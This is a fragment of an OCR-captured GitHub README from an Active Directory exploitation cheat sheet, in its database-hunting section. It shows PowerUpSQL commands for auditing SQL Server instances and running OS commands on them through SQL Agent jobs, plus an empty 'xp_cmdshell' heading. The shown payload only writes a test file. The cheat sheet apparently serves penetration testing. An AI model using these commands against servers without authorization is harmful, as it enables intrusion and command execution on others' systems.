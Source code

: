 #### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='321'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1183' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/K%20-%20Database%20Hunting/README.md#audit-for-issues)Audit for Issues

Invoke-SQLAudit  -Verbose -Instance SQLServer1

#### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='322'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1188' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/K%20-%20Database%20Hunting/README.md#execute-os-commands-agent-job---powershell)Execute OS commands: Agent Job - PowerShell

$Targets  |  Invoke-SQLOSCmdAgentJob  -Verbose -SubSystem PowerShell -Command 'write-output "hello world" | out-file c:\windows\temp\test2.txt'  -Sleep 20

#### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='323'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1201' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/K%20-%20Database%20Hunting/README.md#xp_cmdshell-v1)Xp_cmdshell v1
